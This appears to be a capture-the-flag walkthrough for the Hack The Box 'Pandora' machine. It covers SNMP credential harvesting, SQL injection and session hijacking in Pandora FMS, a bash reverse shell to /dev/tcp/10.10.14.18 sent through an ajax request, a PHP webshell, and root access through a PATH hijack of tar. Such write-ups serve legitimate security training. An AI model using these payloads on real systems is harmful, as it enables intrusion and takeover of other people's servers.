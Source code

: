 
## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

### 🧰 Recon Phase

**Nmap TCP Full Range Scan:**
```bash
nmap -p- --min-rate 10000 10.10.11.136
```

**Nmap Service Version Scan:**
```bash
nmap -p 22,80 -sCV 10.10.11.136
```

**UDP Scan for SNMP:**
```bash
sudo nmap -sU -top-ports=100 10.10.11.136
```

**Feroxbuster Directory Fuzzing:**
```bash
feroxbuster -u http://10.10.11.136
```

**[WFuzz](HTTP.md) Subdomain Discovery:**
```bash
wfuzz -u http://panda.htb -H "Host: FUZZ.panda.htb" \
  -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  --hh 33560
```

**[SNMP](SNMP.md) Enumeration:**
```bash
snmpwalk -v 2c -c public 10.10.11.136 | tee snmp-full
snmpbulkwalk -Cr1000 -c public -v2c 10.10.11.136 > snmp-full-bulk
```

**Custom Process Parsing (Python):**
```python
# snmp_processlist.py (dataclass and regex-based parser)
```

---

### 🚪 Initial Access

**Extracted from SNMP:**
```
Username: daniel
Password: HotelBabylon23
```

**[SSH](SSH) into Box:**
```bash
sshpass -p 'HotelBabylon23' ssh daniel@10.10.11.136
```

**Port Forward Pandora Console:**
```bash
ssh -L 9001:localhost:80 daniel@10.10.11.136
```

---

### 🩷 SQL Injection (CVE-2021-32099)

**Check SQLi Error:**
```
http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id='
```

**Union Test (3 Columns):**
```
?session_id=' union select 1,2,3-- -
```

**SQLMap Discovery:**
```bash
sqlmap -u 'http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id=1'
```

### Find Databases
```bash
sqlmap -u 'http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id=1' --dbs --batch
```

### Find tables
```bash
sqlmap -u 'http://pandora.panda.htb:9001/pandora_console/include/chart_generator.php?session_id=1' -D pandora --tables --batch
```

**Dump Pandora Sessions:**
```bash
sqlmap -D pandora -T tsessions_php --dump --where "data<>''"
```

```bash
wfuzz -u http://pandora.panda.htb:9001/pandora_console/ -b PHPSESSID=FUZZ -w sessions
```

**Replay Session (Replace Cookie):**
```http
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq
```

---

### 🔨 Remote Code Execution (RCE #1: CVE-2020-13851)

**Exploit via Ajax:**
```http
POST /pandora_console/ajax.php
Cookie: PHPSESSID=g4e01qdgk36mfdh90hvcc54umq

page=include/ajax/events&perform_event_response=10000000&target=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.18/666+0>%261"&response_id=1
```

**Listener:**
```bash
nc -nvlp 666
```

**Shell Upgrade:**
```bash
script /dev/null -c bash
```

```
^Z
stty raw -echo; fg
reset
```

---

### 🔨 Remote Code Execution (RCE #2: Admin Upload via SQLi)

**Crafted Payload for Admin Session:**
```url
http://127.0.0.1:9001/pandora_console/include/chart_generator.php?session_id=' union select '1','2','id_usuario|s:5:"admin";' -- a
```

**Upload Webshell (PHP):**
```php
<?php system($_REQUEST['cmd']); ?>
```

**Execute Reverse Shell via Webshell:**
```bash
curl 'http://pandora.panda.htb:9001/pandora_console/images/0xdf.php?cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.18/666+0>%261"'
```

---

### 💼 Privilege Escalation to root

**SUID Binary Discovered:**
```bash
find / -perm -4000 -ls 2>/dev/null | grep pandora_backup
```

**Drop SSH Key to Ensure Clean Env:**
```bash
echo "<pub_key>" > /home/matt/.ssh/authorized_keys
```

**Confirm pandora_backup Vulnerability:**
```bash
ltrace pandora_backup
```

**Hijack tar via PATH:**
```bash
cd /dev/shm
export PATH=/dev/shm:$PATH

cat > tar << 'EOF'
#!/bin/bash
bash
EOF

chmod +x tar
pandora_backup
```

**Grab root flag:**
```bash
cat /root/root.txt
```

---

### 🕵️‍♂️ Beyond Root (Apache mpm-itk Sandbox Bypass)

- Apache site runs as `matt` via `AssignUserID` (from `mpm-itk` module).
- This breaks all SUID functionality under Apache execution tree.
- Switching to SSH avoids `mpm-itk` sandbox, allowing SUID execution.

**References:**
- https://mpm-itk.sesse.net/
- https://www.cpanel.net/support/
- https://serverfault.com/questions/1013897/setuid-scripts-fail-under-apache-mpm-itk

---

**Status:**
- User: `daniel` via SNMP creds
- Lateral: `matt` via Pandora FMS SQLi
- Root: `pandora_backup` path hijack

Great practice for SNMP enumeration, SQLi chaining, Apache mod understanding, and privilege escalation via PATH hijack ✨